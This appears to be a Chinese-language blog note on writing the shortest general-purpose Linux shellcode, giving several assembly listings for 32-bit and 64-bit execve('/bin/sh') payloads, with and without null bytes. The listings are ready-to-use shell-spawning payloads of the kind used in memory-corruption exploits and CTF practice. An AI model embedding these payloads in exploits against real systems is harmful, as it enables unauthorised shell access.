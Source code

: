 ```yaml
---
layout:     post
title:      "Linux ShellCode"
subtitle:   "最短的通用shellcode编写"
date:       2018-11-16 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
    - ShellCode
    - Linux
 
---
```


在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte
```python
shellcode= '''            
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80                  
'''                       
  shellcode=asm(shellcode)
```
无"\x00"最短 21 byte

```nasm
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

标准shellcode 23 byte
```nasm
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```
## 64位


最短有"\x00" 22 byte

```nasm
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

最短无"\x00" 23 byte

```nasm
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

标准shellcode 31 byte

```nasm
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall 
```